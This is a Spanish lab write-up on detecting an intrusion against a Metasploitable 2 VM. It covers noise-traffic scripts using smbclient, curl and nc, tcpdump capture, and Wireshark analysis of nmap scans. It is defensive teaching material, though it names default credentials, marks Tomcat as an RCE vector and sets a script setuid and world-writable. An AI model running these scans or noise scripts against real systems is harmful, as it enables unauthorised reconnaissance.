






# Laboratorio de Detección: IDS con Filtrado de Ruido (Samba)
1. Introducción y Escenario

En entornos reales, los ataques no ocurren en el vacío; se camuflan entre miles de peticiones legítimas. El objetivo de este laboratorio es construir un HIDS (Host-based IDS) artesanal capaz de diferenciar entre el tráfico corporativo normal y un intento de intrusión.
Topología Lógica (IP Aliasing)

Para simular este entorno con una sola máquina atacante (Kali), utilizaremos interfaces virtuales:

    IP Atacante (Real): 192.168.56.102 (Origen del Exploit).

    IP Usuario Legítimo (Virtual): 192.168.56.110 (Origen del Ruido).

    IP Víctima: 192.168.56.101 (Metasploitable 2).
2. 2. Preparación del Entorno (En Kali)

Primero, configuramos el IP Aliasing para disponer de una segunda identidad en la red.
```bash
# Crear la interfaz virtual eth0:1 con la IP .110
sudo ifconfig eth0:1 192.168.56.110 netmask 255.255.255.0 up

# Verificar que ambas IPs están activas
ifconfig | grep "inet "
```
Resultado desde kali correcto:
```bash
┌──(kali㉿kali)-[~]
└─$ sudo ifconfig eth0:1 192.168.56.110 netmask 255.255.255.0 up
[sudo] password for kali: 
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.56.102  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::7251:48d:d0e1:2cd  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:63:b0:05  txqueuelen 1000  (Ethernet)
        RX packets 3  bytes 1240 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 38  bytes 9054 (8.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0:1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.56.110  netmask 255.255.255.0  broadcast 192.168.56.255
        ether 08:00:27:63:b0:05  txqueuelen 1000  (Ethernet)

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 8  bytes 480 (480.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8  bytes 480 (480.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ ifconfig | grep "inet "
        inet 192.168.56.102  netmask 255.255.255.0  broadcast 192.168.56.255
        inet 192.168.56.110  netmask 255.255.255.0  broadcast 192.168.56.255
        inet 127.0.0.1  netmask 255.0.0.0
```
Para mejorar aún más el ruido hacemos un script que genera tráfico de simba desde cinco IP's fijas rotando entre ellas, luego lo mejoraremos si es necesario.
```bash
#!/bin/bash

# Configuración
INTERFACE="eth0"
VICTIM_IP="192.168.56.101"
SUBNET="192.168.56"
# Definimos nuestras 5 IPs fijas de ruido
IPS=("200" "210" "220" "230" "240")

echo "[*] Configurando entorno de ruido (5 IPs fijas)..."

# Función de limpieza al salir
trap cleanup EXIT
function cleanup() {
    echo -e "\n[*] Bajando interfaces de ruido..."
    for i in {0..4}; do
        sudo ifconfig ${INTERFACE}:$((i+10)) down 2>/dev/null
    done
    echo "[*] Limpieza completada."
}

# PASO 1: Levantar las interfaces una sola vez
for i in "${!IPS[@]}"; do
    ID=$((i+10))
    CURRENT_IP="${SUBNET}.${IPS[$i]}"
    echo "[+] Levantando ${INTERFACE}:${ID} con IP ${CURRENT_IP}"
    sudo ifconfig ${INTERFACE}:${ID} ${CURRENT_IP} up
done

echo -e "\n[*] Entorno listo. Iniciando rotación de tráfico...\n"

# PASO 2: Rotar el tráfico perpetuamente
while true; do
    for IP_SUF in "${IPS[@]}"; do
        CURRENT_IP="${SUBNET}.${IP_SUF}"
        
        echo "[$(date +%H:%M:%S)] Usuario ${CURRENT_IP} -> Accediendo a Samba"
        
        # Enviamos el tráfico legítimo
        smbclient -L //${VICTIM_IP} -N -s /dev/null -b ${CURRENT_IP} -I ${VICTIM_IP} > /dev/null 2>&1
        
        # Pequeña pausa entre usuarios
        sleep 2
    done
done
```
Generamos y ejecutamos para probar:
```bash
└─$ chmod 4766 noise_generator.sh                               
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ ls -l
total 72
-rw-rw-r-- 1 kali kali 4732 Feb  3 11:54 acces.log
drwxrwxr-x 2 kali kali 4096 Feb  6 10:30 ataque_simba
-rw-rw-r-- 1 kali kali  254 Feb  3 11:52 cookies.txt
drwxr-xr-x 2 kali kali 4096 Feb  4 12:47 Desktop
drwxr-xr-x 2 kali kali 4096 Feb  3 07:42 Documents
drwxr-xr-x 2 kali kali 4096 Feb  3 07:42 Downloads
-rw-rw-r-- 1 kali kali 5071 Feb  3 12:04 environ.dump
drwxrwxr-x 2 kali kali 4096 Feb  3 14:41 exfilt
-rw------- 1 kali kali 1675 Feb  3 12:43 id_rsa
drwxr-xr-x 2 kali kali 4096 Feb  3 07:42 Music
-rwsrw-rw- 1 kali kali 1022 Feb 11 10:22 noise_generator.sh
drwxr-xr-x 2 kali kali 4096 Feb  3 07:42 Pictures
drwxr-xr-x 2 kali kali 4096 Feb  3 07:42 Public
-rw-rw-r-- 1 kali kali 1106 Feb  5 06:35 shell.war
drwxr-xr-x 2 kali kali 4096 Feb  3 07:42 Templates
-rw-r--r-- 1 kali kali    0 Feb  5 05:25 test
drwxr-xr-x 2 kali kali 4096 Feb  3 07:42 Videos
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ ./noise_generator.sh 
[*] Generador de ruido activo (Rango .200 - .250)
[*] Presiona Ctrl+C para limpiar y salir.
[10:22:46] Ruido desde 192.168.56.217 enviado.
[10:22:49] Ruido desde 192.168.56.248 enviado.
[10:22:51] Ruido desde 192.168.56.247 enviado.
[10:22:53] Ruido desde 192.168.56.218 enviado.
[10:22:54] Ruido desde 192.168.56.223 enviado.
[10:22:56] Ruido desde 192.168.56.230 enviado.
[10:22:58] Ruido desde 192.168.56.224 enviado.
[10:23:01] Ruido desde 192.168.56.221 enviado.
^C
[*] Bajando interfaces virtuales...

```
**Vamos a modificar el script para que genere 3 tipos de ruido simultáneos**. Esto hará que el pcap sea un reto de verdad. Más adelante, al final del todo, lo usaremos para ML y que detecte el ataque automáticamente a partir de una baseline.
Tipos de llamadas a añadir:

    Puerto 80 (HTTP): Simular que son máquinas consultando el servidor web de Metasploitable.

    Puerto 21 (FTP): Intentos de conexión fallidos.

```bash
#!/bin/bash

# =================================================================
# LABORATORIO: Generación de Ruido para Detección con ML
# OBJETIVO: Simular tráfico multi-puerto aleatorio (SMB, HTTP, FTP)
# =================================================================

INTERFACE="eth0"
VICTIM_IP="192.168.56.101"
SUBNET="192.168.56"
IPS=("200" "210" "220" "230" "240")

echo "[*] Configurando entorno de ruido persistente..."

# --- Función de limpieza ---
trap cleanup EXIT
function cleanup() {
    echo -e "\n[*] Bajando interfaces de ruido..."
    for i in {0..4}; do
        sudo ifconfig ${INTERFACE}:$((i+10)) down 2>/dev/null
    done
    echo "[*] Entorno limpio."
}

# --- Inicialización de IPs ---
for i in "${!IPS[@]}"; do
    ID=$((i+10))
    CURRENT_IP="${SUBNET}.${IPS[$i]}"
    sudo ifconfig ${INTERFACE}:${ID} ${CURRENT_IP} up
    echo "[+] IP activa: ${CURRENT_IP}"
done

echo -e "\n[*] Iniciando RUIDO ALEATORIO. Presiona Ctrl+C para detener."

while true; do
    # 1. Seleccionar IP aleatoria del array
    RANDOM_INDEX=$(( RANDOM % ${#IPS[@]} ))
    SELECTED_IP="${SUBNET}.${IPS[$RANDOM_INDEX]}"
    
    # 2. Seleccionar Protocolo aleatorio (1: SMB, 2: HTTP, 3: FTP)
    PROTO_CHOICE=$(( ( RANDOM % 3 ) + 1 ))

    case $PROTO_CHOICE in
        1)
            echo "[$(date +%H:%M:%S)] [SMB] ${SELECTED_IP} -> Solicitando recursos"
            smbclient -L //${VICTIM_IP} -N -s /dev/null --interfaces="${SELECTED_IP}/24" --bind-interfaces -I ${VICTIM_IP} > /dev/null 2>&1 &
            ;;
        2)
            echo "[$(date +%H:%M:%S)] [HTTP] ${SELECTED_IP} -> GET /index.html"
            curl -s --interface ${SELECTED_IP} http://${VICTIM_IP} > /dev/null &
            ;;
        3)
            echo "[$(date +%H:%M:%S)] [FTP] ${SELECTED_IP} -> Banner Grabbing"
            timeout 1 nc -nv -s ${SELECTED_IP} ${VICTIM_IP} 21 > /dev/null 2>&1 &
            ;;
    esac

    # Pausa aleatoria para evitar patrones fijos (jitter)
    sleep 0.$(( ( RANDOM % 9 ) + 1 ))s
    sleep $(( RANDOM % 2 ))
done
```
Para testear primero el peso del archivo vamos a dejar corriendo el script y vamos a realizar un packetsniffing de un par de minutos:
```bash
sudo tcpdump -i eth0 -nn -s 0 -G 120 -W 1 -w prueba_2min.pcap
```
-G 120: (Rotation time) Le dice a tcpdump que rote el archivo cada 120 segundos (2 minutos).

-W 1: (Limit) Le dice que solo queremos un archivo. Al llegar al límite de tiempo del primer archivo, el programa se detendrá automáticamente.


# Sniffing con simulación de ataque con ruido legítimo
Ponemos a trabajar a tcpdump para capturar paquetes de ruido con el comando
```bash
sudo tcpdump -i eth0 -nn -s 0 -w intrusion_final.pcap
```
El -nn lo ponemos para que no intente resolver dns, así reducimos tiempo y evitamos contaminación del pcap del mismo tcpdump preguntando quién es. A continuación dejamos el ruido corriendo dos o tres minutos y procedemos al ataque, siguiendo los pasos descritos en la sección de ataque **04_samba** hasta conseguir peristencia root real. Empezamos con un nmap "silencioso" con -sS y luego de versiones y ya procedemos al tanteo y seguimos la línea del ataque documentado.
  
# Informe de Análisis Forense: Fase 1 de Pre-Intrusión (Baseline)

## 1. Resumen de la Captura
En esta fase inicial del archivo `intrusion.pcap`, se analiza el tráfico de red antes de la ejecución de exploits por parte del atacante (`192.168.56.102`). El objetivo es caracterizar el **tráfico de fondo (ruido)** para establecer una línea de base que permita diferenciarlo de futuras anomalías.

## Análisis de Evidencia Visual (Wireshark)

| No. Paquete | Origen (Source) | Destino (Destination) | Protocolo | Comportamiento Observado |
| :--- | :--- | :--- | :--- | :--- |
| **4, 18** | `192.168.56.1` | `192.168.56.101` | TCP | **[RST, ACK]**: El servidor rechaza una conexión a un puerto cerrado. |
| **10, 24** | `192.168.56.220` | `192.168.56.101` | HTTP | **GET /**: Petición web estándar desde nodo de ruido. |
| **12** | `192.168.56.240` | `192.168.56.101` | HTTP | **GET /**: Inicio de transferencia de datos en capa de aplicación. |
| **13** | `192.168.56.101` | `192.168.56.240` | TCP | **[RST, ACK]**: El servidor aborta abruptamente la conexión HTTP anterior. |
## 3. Hallazgos Técnicos

### A. Caracterización del Ruido Sintético
Se observa una actividad constante de múltiples direcciones IP (`.220`, `.230`, `.240`) interactuando con la víctima (`.101`). La presencia de paquetes `[RST, ACK]` sin una secuencia lógica de escaneo (como incrementos de puerto unitarios) confirma que se trata de **ruido aleatorio**. Estos paquetes intentan ensuciar la tabla de estados del firewall y ocultar patrones de conexión.

### B. Análisis de Capa de Aplicación (HTTP)
El tráfico HTTP observado (Paquetes 10, 24) consiste en peticiones raíz (`/`) vacías. Carecen de *payloads* maliciosos, *User-Agents* sospechosos o parámetros de inyección, lo que indica que su única función es generar volumen en los logs del servidor web.

### C. Resolución de Direcciones (ARP)
La alta frecuencia de paquetes ARP sugiere una red con alto movimiento de descubrimiento de activos. En un entorno real, esto podría camuflar la actividad de un atacante realizando *ARP Poisoning* o simplemente buscando la dirección MAC de la víctima.

## 4. Conclusión para el Modelo de Defensa
Este tráfico representa un escenario de **saturación de eventos**. Para el desarrollo del script de detección en tiempo real, esta sección del PCAP es fundamental para:
1.  **Entrenar filtros de exclusión:** Identificar qué IPs pertenecen a la infraestructura conocida de "ruido".
2.  **Ajustar umbrales de alerta:** Evitar falsos positivos por intentos de conexión fallidos a puertos que no son críticos.

---

# Análisis de Profundidad: Flujo de Comunicación (TCP Stream 3)

Este apartado documenta el proceso técnico para aislar y analizar una conversación completa entre un nodo de ruido (`192.168.56.230`) y el servidor objetivo (`192.168.56.101`). El objetivo es comprender el comportamiento del tráfico de fondo antes de identificar la intrusión real.


### Procedimiento en Wireshark
Para obtener esta vista de flujo simplificada y eliminar el ruido visual de otros paquetes, se siguieron estos pasos:
1.  **Selección:** Localizar un paquete perteneciente a la conversación de interés (en este caso, cualquier paquete entre la IP `.230` y `.101`).
2.  **Filtrado:** Hacer **clic derecho** sobre el paquete.
3.  **Aislamiento:** Seleccionar **Conversation Filter** > **TCP**.
    * *Resultado:* Wireshark aplica automáticamente el filtro `tcp.stream eq 3`, mostrando únicamente los paquetes que comparten los mismos sockets (IPs y Puertos).

---

### Desglose del Flujo de Datos

#### 1. El Saludo (Three-Way Handshake)
* **Paquetes 19, 22, 23:** Se establece la conexión siguiendo el estándar TCP.
    * **Paquete 19:** La IP `.230` envía un `SYN` (Sincronización) para solicitar la apertura.
    * **Paquete 22:** La víctima responde con `SYN, ACK` (Aceptación de la solicitud).
    * **Paquete 23:** La fuente confirma con un `ACK` (Acuse de recibo final).
    * **Estado:** La conexión queda en estado `ESTABLISHED`.


#### 2. La Petición y Confirmación Técnica (ACK Intermedio)
* **Paquete 24 (HTTP):** La IP de ruido envía la carga útil de capa de aplicación: `GET / HTTP/1.1`.
* **Paquete 25 (TCP ACK):** **Acuse de recibo de transporte.** Este paquete es crucial: la víctima confirma a nivel de protocolo TCP que ha recibido los datos de la petición (paquete 24) de forma íntegra. Es un "mensaje de mantenimiento" que ocurre antes de que el servidor web procese la solicitud y genere una respuesta.

#### 3. La Respuesta del Servidor (Data Transfer)
* **Paquete 26 (HTTP):** El servidor responde con un `HTTP/1.1 200 OK`. 
    * El servidor entrega el contenido solicitado (la página raíz). Esto confirma que el servicio web está operativo y no está sufriendo una Denegación de Servicio (DoS) a pesar del volumen de ruido.

#### 4. El Cierre Elegante (Connection Termination)
* **Paquetes 28, 29, 30:** Se observa el fin de la sesión unido por las guías de flujo de Wireshark.
    * **Paquete 28:** El cliente envía un `FIN` para indicar que no tiene más datos que enviar.
    * **Paquete 29:** El servidor responde con su propio `FIN, ACK`.
    * **Paquete 30:** El intercambio termina con el último `ACK`.
    * **Resultado:** La sesión se cierra de forma ordenada, liberando correctamente los recursos del sistema.

#### 5. Fuga de Información Crítica (Information Disclosure)


* **Paquete 26 (HTTP):** La respuesta del servidor es extremadamente reveladora. En el cuerpo del HTML (visto mediante *Follow TCP Stream*), el servidor entrega:
    * **Banner del Sistema:** "Metasploitable2 - Linux".
    * **Credenciales por Defecto:** Indica explícitamente `msfadmin/msfadmin` para iniciar sesión.
    * **Superficie de Ataque:** Enumera directorios vulnerables como `/phpMyAdmin/`, `/mutillidae/`, `/dvwa/` y `/dav/`.

>**Nota de Seguridad:** Esto representa una vulnerabilidad de **Divulgación de Información**. Un atacante no necesita realizar fuerza bruta si el propio servicio expone las credenciales y las rutas de administración en la página de bienvenida.

>Aunque este tráfico es parte del "ruido", el análisis demuestra que un atacante pasivo podría obtener acceso total simplemente leyendo las respuestas HTTP. En un proceso de **Hardening**, la primera medida sería eliminar estos banners informativos y deshabilitar la visualización de credenciales en el Front-end.

---

# Fase 2: Identificación y Análisis del Atacante (.102)

Una vez caracterizado el tráfico de fondo y el ruido sintético, procedemos a realizar el aislamiento de la amenaza. El objetivo es segregar toda la actividad proveniente del host atacante identificado durante el laboratorio.

## Aislamiento de la Amenaza
Para realizar un análisis forense efectivo y evitar falsos positivos derivados del ruido de red, es imperativo centrar la vista de Wireshark exclusivamente en la interacción entre el atacante (`192.168.56.102`) y la víctima (`192.168.56.101`).

**Procedimiento Técnico:**
1. En la interfaz principal de Wireshark, localizamos la barra de **Filtros de Visualización**.
2. Introducimos el siguiente filtro bidireccional:
   `ip.addr == 192.168.56.102`


## Detección del Reconocimiento Activo (Scanning)

Tras aislar el tráfico de la IP `192.168.56.102`, el análisis forense revela una actividad característica de la fase de **Reconocimiento Activo** o escaneo de puertos. 

**Análisis de la Evidencia:**
En la captura de pantalla se observa una ráfaga masiva de paquetes con el flag **[RST, ACK]** enviados desde la víctima (`.101`) hacia el atacante (`.102`). 

**Interpretación Técnica:**
1. **Comportamiento del Escaneo:** El atacante está realizando un escaneo de puertos (probablemente mediante `nmap`). 
2. **Respuesta del Servidor:** Cada paquete `RST, ACK` es una respuesta de la víctima indicando que el puerto al que el atacante intentó conectar (ej. puertos 110, 995, 8080, 3389) se encuentra **cerrado**.
3. **Identificación de la Técnica:** Debido a la rapidez de las peticiones (múltiples puertos escaneados en la misma fracción de segundo, como se ve en la columna *Time*), se confirma que no es tráfico humano, sino un escaneo automatizado para mapear la superficie de ataque.

## Análisis del Mecanismo de Escaneo (TCP Stream Analysis)

Para validar la técnica de reconocimiento utilizada por el atacante, se procedió a aislar una conversación individual mediante el análisis de flujos TCP (`Follow TCP Stream`).

**Interpretación Técnica (Stream 119):**
Al analizar el flujo hacia el puerto **110**, se identifica el ciclo completo del escaneo **TCP SYN**:
* **Tramas Observadas:** Un paquete `[SYN]` (solicitud enviada desde atacante `192.168.56.102`) seguido inmediatamente por un `[RST, ACK]` (rechazo desde `192.168.56.101`).
* **Conclusión:** Este patrón confirma que el atacante está utilizando un escaneo de tipo **Stealth/Half-open**. La víctima corta la conexión antes de que se complete el saludo de tres vías, lo que genera la coloración roja característica en los logs de Wireshark debido al flag de *Reset* (`RST`).

**Hallazgo Forense:**
Este comportamiento se repite en la gran mayoría de los puertos (110, 995, 8080, 1723, etc.), lo que indica una fase de enumeración extensiva para mapear servicios vulnerables en el servidor objetivo. (`nmap -sS`)

---

## Detección de Enumeración de Servicios y Versiones (-sV)

Tras el escaneo inicial de puertos, se identifica un cambio en el comportamiento del atacante (`.102`). En lugar de ráfagas de paquetes `RST` en múltiples puertos, se observan conexiones completas y prolongadas hacia puertos específicos (como el 8180 o el 80).

**Evidencia Forense del Escaneo de Versiones:**
1. **Conexiones Completas:** Se observa el saludo de tres vías (3-Way Handshake) completo, lo que indica que Nmap ha establecido una sesión real para interactuar con el servicio.
2. **Intercambio de Banners:** El atacante envía paquetes con "Payload" (datos). Nmap lanza diferentes sondas para forzar al servidor a revelar su versión (ej. enviando un `GET` para identificar que es un Apache Tomcat).  
3. **Cierre de Conexión:** A diferencia del escaneo SYN, aquí veremos paquetes `FIN, ACK` al finalizar la enumeración de cada servicio.  

**Filtro para detectar esta actividad:**
Para ver los servicios que el atacante intentó identificar, usamos:
`ip.src == 192.168.56.102 && tcp.flags.push == 1`

###  Optimización del Análisis: Columnas Customizadas y Mapeo de Vectores

Para transformar la masa de datos en información procesable, se realizó una modificación estructural en la interfaz de Wireshark, permitiendo una correlación directa entre paquetes y conversaciones.

####  Implementación de la Columna 'Stream ID'
Se añadió una columna personalizada de tipo **Custom** con el campo `tcp.stream`. 
* **¿Por qué?**: En un análisis forense, los paquetes individuales no cuentan la historia completa. El `Stream ID` actúa como un "ID de conversación", permitiéndonos agrupar cada intento de conexión, escaneo o explotación bajo un único número de referencia.
* **Cómo se identifica**: Al ver el mismo ID en varios paquetes, sabemos que pertenecen al mismo flujo TCP, facilitando la reconstrucción de ataques complejos que se dividen en cientos de tramas.

####  Identificación de Vectores Abiertos (Análisis de la Evidencia)
Utilizando el filtro de respuestas positivas (`tcp.flags.syn == 1 && tcp.flags.ack == 1`), hemos obtenido el "Mapa de Puertos Abiertos" del servidor objetivo (`192.168.56.101`).

**Hallazgos Clave en la Captura:**
1. **Validación del Protocolo**: Cada línea en la imagen representa un paquete **[SYN, ACK]**. Según el estándar TCP, esto es la confirmación de que el puerto está abierto y aceptando conexiones.
2. **Correlación de Servicios**:
   - **Puertos 21, 22, 80**: Servicios estándar (FTP, SSH, HTTP) que ofrecen las primeras vías de entrada.  
   - **Puerto 445 (Stream 133)**: Servicio de compartición de archivos (Samba), un vector crítico para escalada de privilegios y movimiento lateral.  
   - **Puerto 8180 (Stream 194)**: Identificado como el puerto de **Apache Tomcat**. Es un vector de alto riesgo, ya que suele permitir la ejecución remota de código (RCE) mediante la subida de paquetes maliciosos.  
